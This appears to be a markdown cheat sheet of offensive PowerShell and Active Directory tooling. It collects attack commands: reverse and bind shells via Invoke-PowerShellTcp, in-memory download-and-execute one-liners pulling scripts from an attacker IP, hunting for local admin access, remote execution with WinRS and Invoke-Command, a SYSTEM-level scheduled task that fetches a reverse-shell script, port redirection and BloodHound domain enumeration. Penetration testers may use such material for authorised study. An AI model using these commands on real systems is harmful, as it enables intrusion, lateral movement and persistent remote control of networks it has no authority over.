 # Tools

- [Invoke-PowerShellTcp.ps1](#-invoke-powershelltcpps1-)
- [Find-PSRemotingLocalAdminAccess.ps1](#-find-psremotinglocaladminaccessps1-)
- [Find-WMILocalAdminAccess.ps1](#-find-wmilocaladminaccessps1-)
- [Enter-PSSession (cmdlet)](#enter-pssession--cmdlet-)
- [Invoke-Command (cmdlet)](#invoke-command--cmdlet-)
- [WinRS.exe](#winrsexe)
- [Loader.exe](#loaderexe)
- [Task Scheduling](#task-scheduling)
- [File Copy Using Powershell](#file-copy-using-powershell)
- [BloodHound](#bloodhound)


### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### CMD Intersting Commands
---
##### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
##### Port Redirection
```powershell
# Redirect connection to local ip and port to remote ip andp ort
C:> netsh interface portproxy add v4tov4 listenport=<local_port> listenaddress=<local_IP> connectport=<remote_port> connectaddress=<remote_IP>"
```
### File Copy Using Powershell
```powershell
# From a URL to a file
C:> iwr http://<IP>/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
